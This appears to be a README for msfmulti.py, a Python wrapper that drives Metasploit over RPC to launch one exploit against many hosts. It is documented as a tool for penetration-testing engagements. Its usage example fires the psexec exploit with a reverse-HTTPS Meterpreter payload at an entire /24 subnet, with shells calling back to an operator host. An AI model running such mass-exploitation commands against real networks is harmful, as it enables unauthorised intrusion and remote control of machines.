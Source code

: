 # MsfMulti

`msfmulti.py` helps running a given metasploit exploit against multiple targets.
It can be particularly useful during large scope engagements.


## Dependencies

* msgpack-python
* requests


## Usage

The script relies on Metasploit's RPC interface, before using it make sure you 
have loaded the `msgrpc` module from the console with the `load msgrpc` command.

Before running this script, you must also have started the payload handler as a 
job from the console (with `ExitOnSession` set to `false`).

Example:

```text
$ ./msfmulti.py -e windows/smb/psexec -p windows/meterpreter/reverse_https \
-t 192.168.1.0/24 --opts='LHOST=192.168.1.16,LPORT=443'
```

Target can be:
* a single IP
* a CIDR
* a comma-separated mix of both

Full help:

```text
usage: msfmulti.py [-h] -e EXPLOIT -p PAYLOAD -t TARGETS [--opts OPTIONS]
                   [--rpc-host HOST] [--rpc-port PORT] [--rpc-user USER]
                   [--rpc-passwd PASSWD] [--rpc-ssl]

Metasploit mass exploitation utility

optional arguments:
  -h, --help            show this help message and exit
  -e EXPLOIT, --exploit EXPLOIT
                        exploit to run against targets
  -p PAYLOAD, --payload PAYLOAD
                        payload to use with the exploit
  -t TARGETS, --targets TARGETS
                        comma-separated list of IPs/CIDRs
  --opts OPTIONS        comma-separated options to pass to the exploit

MSFRPC connection:
  --rpc-host HOST       MSFRPC host (default: 127.0.0.1)
  --rpc-port PORT       MSFRPC port (default: 55552)
  --rpc-user USER       user to use to connect to MSFRPC (default: msf)
  --rpc-passwd PASSWD   password to use to connect to MSFRPC (default: msf)
  --rpc-ssl             use SSL to connect to MSFRPC (default: False)

```
